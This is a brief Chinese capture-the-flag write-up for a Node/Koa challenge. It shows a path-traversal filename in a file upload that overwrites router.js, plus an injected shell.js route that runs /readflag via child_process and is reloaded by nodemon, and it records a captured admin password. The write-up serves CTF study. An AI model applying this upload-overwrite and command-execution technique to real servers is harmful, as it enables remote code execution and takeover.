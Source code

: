 ## WeChat
#node-文件覆盖-nodemon

![](attachments/Pasted%20image%2020240324202528.png)

文件上传点

![](attachments/Pasted%20image%2020240324203342.png)

![](attachments/Pasted%20image%2020240324203355.png)

构造文件名和hash来实现将router.js 覆盖
hash `/.`
`/../src/route/shell.js` `/../src/route/router.js` 


直接用写入数据的方式注册账号

![](attachments/Pasted%20image%2020240324204729.png)

进入后台
![](attachments/Pasted%20image%2020240324204654.png)

拿到admin密码`c98b2c31-c110-49a2-85e8-07040dc29bef`

这里要用邮箱才能正确登录
shell.js
```js
const router = require('@koa/router')()  
const child_process = require('child_process')  
  
router.get('/wechatAPI/getflag', (ctx) => {  
    var flag = child_process.execFileSync("/readflag").toString()  
    ctx.status = 200  
    ctx.body = {  
        msg: flag  
    }  
})
```

router.js
```js
const router = require('@koa/router')()

const commonRouter = require('./commonRouter')
const routeAdmin = require('./admin')
const routeLogin = require('./login')
const routeUpload = require('./upload')
const shell = require('./shell')

router
  .use(routeLogin)
  .use(commonRouter)
  .use(routeUpload)
  .use(routeAdmin)
  .use(shell)

module.exports = router
```